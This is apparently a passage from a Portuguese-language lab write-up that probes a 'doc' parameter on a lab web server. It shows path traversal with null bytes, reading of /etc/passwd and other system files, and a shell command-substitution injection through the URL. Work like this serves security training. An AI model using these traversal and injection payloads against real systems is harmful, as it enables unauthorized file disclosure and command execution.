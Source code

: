 Vamos explorar esse parâmetro:

- `?doc=x`: Tela em branco
- `?doc=/etc/passwd`: Tela em branco

Provavelmente não vemos nada porque esse campo recebe o nome do arquivo e faz prepend de um caminho e append de uma extensão. Logo, termo_de_uso deve virar algo como /pasta/termo_de_uso.txt. Se isso for verdade, podemos testar com diretórios relativos + null bytes e também com múltiplos nomes de arquivos.

- [http://empresasegura.lab:8080/about?doc=../../../../../etc/passwd%00](http://empresasegura.lab:8080/about?doc=../../../../../etc/passwd%00)  Quebra por causa do null byte.
- [http://empresasegura.lab:8080/about?doc=/etc/hostname /etc/fstab /etc/passwd /etc/mtab /etc/hosts](http://empresasegura.lab:8080/about?doc=/etc/hostname%20/etc/fstab%20/etc/passwd%20/etc/mtab%20/etc/hosts) mostra o conteúdo de todos os arquivos, menos o primeiro e o último.
- Será que neste contexto ele repassa o path para o shell? Se sim, podemos tentar executar comandos... [http://empresasegura.lab:8080/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x](http://empresasegura.lab:8080/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x). Game over!

---

### Contato

![](assets/2023-09-04-00-11-53.png)
